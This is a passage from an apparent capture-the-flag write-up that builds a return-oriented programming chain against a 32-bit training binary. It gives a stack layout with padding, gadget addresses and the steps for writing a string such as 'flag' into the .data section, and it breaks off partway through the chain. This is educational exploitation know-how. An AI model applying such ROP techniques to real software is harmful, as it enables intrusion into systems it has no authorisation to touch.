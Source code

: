 
So it looks like the last 4 A's are put into ebx, and the very first A in that sequence (least significant byte) is stored in ebl



# Crafting Our ROPchain

So now that we have our values that we want to put into the BL register, let's try to set up our ROPchain

Stack layout:

	0x0804a018 - 0x0804a020 is .data

 	A's                                     36B
        _______________________________________
	
	value put into ebx
	first char is value to put into bl
 	 = ?AAA					 4B
	 = 0x01414141

        _______________________________________
        fake ebp
         = "BBBB"                                4B
        _______________________________________
	eip = rop gadget to pop edi, esi, ebp	 4B
        _______________________________________
	esi  =  "fl\x00\x00\x00"
        _______________________________________
        edi
         = &data
         = 0x0804a018                            4B
        _______________________________________
	ebp
         = &data
         = 0x0804a018                            4B
        _______________________________________
	eip = usefulGadget to store string
	________________________________________
        rop gadget 1 address
	 = rop gadget to pop edi, esi, ebp
         = rop.esi				 4B
        _______________________________________
	esi2
	 = "\x60\x00\x00\x00\x00"
        _______________________________________
        edi2
         = &data + 0x2
         = 0x0804a01a                            4B
        _______________________________________
	ebp2
         = edi2 
         = 0x0804a01a                            4B
        _______________________________________
	eip = usefulGadget to store string
        ________________________________________
	eip = usefulGadget to add 1 to \x60
        ________________________________________
	eip = rop gadget to pop edi, esi, ebp
        ________________________________________
	esi3